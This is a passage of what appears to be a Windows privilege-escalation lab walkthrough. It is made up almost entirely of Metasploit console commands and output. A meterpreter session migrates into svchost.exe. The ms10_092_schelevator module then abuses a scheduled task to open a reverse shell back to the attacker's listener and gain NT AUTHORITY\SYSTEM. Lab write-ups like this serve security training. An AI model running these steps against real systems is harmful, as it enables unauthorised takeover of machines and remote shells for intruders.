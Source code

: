 ```
 3048  476   svchost.exe
 
 
meterpreter > migrate 2796

[*] Migrating from 2268 to 2796...
[*] Migration completed successfully.


meterpreter > background

[*] Backgrounding session 1...
```

3) Setting Privilege Escalation Module Options

```
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1
msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.3
msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443

 exploit

[*] Started reverse TCP handler on 10.10.14.3:4443
[*] Preparing payload at C:\Windows\TEMP\uQEcovJYYHhC.exe
[*] Creating task: isqR4gw3RlxnplB
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\isqR4gw3RlxnplB...
[*] Original CRC32: 0x89b06d1a
[*] Final CRC32: 0x89b06d1a
[*] Writing our modified content back...
[*] Validating task: isqR4gw3RlxnplB
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] isqR4gw3RlxnplB                          6/1/2021 1:04:00 PM    Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.129.43.15
[*] SUCCESS: Attempted to run the scheduled task "isqR4gw3RlxnplB".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.3:4443 -> 10.129.43.15:49634) at 2021-05-12 16:04:34 -0400
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" was successfully deleted.
[*] SCHELEVATOR


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-2K8
```
